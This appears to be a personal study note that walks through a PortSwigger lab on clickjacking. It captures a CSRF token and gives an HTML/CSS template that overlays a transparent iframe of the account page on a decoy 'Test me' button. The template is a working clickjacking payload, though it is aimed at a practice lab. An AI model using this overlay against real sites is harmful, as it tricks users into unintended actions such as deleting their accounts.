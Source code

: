 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved